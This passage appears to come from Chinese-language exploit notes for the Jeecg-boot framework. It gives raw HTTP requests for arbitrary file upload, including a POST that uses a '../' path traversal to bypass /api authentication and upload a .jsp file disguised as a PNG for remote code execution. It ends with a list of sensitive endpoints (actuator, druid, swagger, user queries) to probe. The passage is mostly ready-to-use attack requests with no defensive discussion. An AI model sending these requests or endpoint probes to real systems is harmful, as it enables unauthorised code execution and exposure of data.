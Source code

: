 ```
Content-Length: 1476
------WebKitFormBoundaryyfyhSCMs9cajzFD4
Content-Disposition: form-data; name="file"; filename="11111.txt"
Content-Type: text/html
<%! 1111>
------WebKitFormBoundaryyfyhSCMs9cajzFD4
Content-Disposition: form-data; name="fileName"
11111.txt
------WebKitFormBoundaryyfyhSCMs9cajzFD4
Content-Disposition: form-data; name="biz"
excel_online
------WebKitFormBoundaryyfyhSCMs9cajzFD4--
```  
  
## Jeecg-commonController.do文件上传  
```
由于 /api 接口鉴权时未过滤路径遍历，攻击者可构造包含 ../ 的url绕过鉴权。攻击者可构造恶意请求利用 commonController 接口进行文件上传攻击实现远程代码执行。
POST /jeecg-boot/api/../commonController.do?parserXml HTTP/1.1
Host:
Accept-Encoding: gzip, deflate
Content-Length: 360
User-Agent: Mozilla/2.0 (compatible; MSIE 3.01; Windows 95
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygcflwtei
Connection: close
------WebKitFormBoundarygcflwtei
Content-Disposition: form-data; "name="name"
zW9YCa.png
------WebKitFormBoundarygcflwtei
ontent-Disposition: form-data; name="documentTitle"
blank
------WebKitFormBoundarygcflwtei
Content-Disposition: form-data; name="file"; filename="zW9YCa.jsp"
Content-Type: image/png
11111
------WebKitFormBoundarygcflwtei--
```  
  
## 常见jeecg-boot常见接口  
```
/v2/api-docs
/jeecg-boot/online/cgform/head/fileTree?_t=1632524014&parentPath=/
/jeecg-boot/sys/user/querySysUser?username=admin
/jeecg/
/api/sys/
/sys/user
/v2/api-docs
/swagger-ui.html
/env
/actuator
/mappings
/metrics
/beans
/configprops
/actuator/metrics
/actuator/mappings
/actuator/beans
/actuator/configprops
/actuator/httptrace
/druid/index.html
/druid/sql.html
/druid/weburi.html
/druid/websession.html
```